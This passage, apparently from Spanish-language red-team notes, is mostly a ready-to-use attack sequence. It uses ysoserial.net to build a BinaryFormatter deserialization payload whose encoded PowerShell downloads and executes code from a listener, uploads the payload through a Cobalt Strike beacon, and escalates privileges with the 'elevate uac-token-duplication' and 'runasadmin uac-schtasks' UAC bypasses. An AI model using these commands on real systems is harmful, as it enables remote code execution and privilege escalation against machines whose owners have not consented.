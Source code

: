 ```powershell
C:\Tools\ysoserial.net\ysoserial.exe ^
  -g TypeConfuseDelegate ^
  -f BinaryFormatter ^
  -c "powershell -nop -ep bypass -enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAGMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAyADcALgAwAC4AMAAuADEAOgAzADEANAA5ADAALwAnACkA" ^
  -o raw ^
  --outputpath C:\Payloads\data.bin


beacon> cd C:\Temp
beacon> upload C:\Payloads\data.bin
```



### 🔹 **8.  UAC Bypass**

### 🔍 Ver tu nivel de integridad:

```powershell
beacon>whoami /groups
```
→ Verás una línea como: `Mandatory Label\Medium Mandatory Level`

- Escalar
```powershell
beacon> elevate [exploit] [listener]
#Ejemplo:
beacon> elevate uac-token-duplication http_listener
```
### `runasadmin` – Ejecuta comandos con elevación

```powershell
runasadmin uac-schtasks cmd.exe /c whoami /groups
```
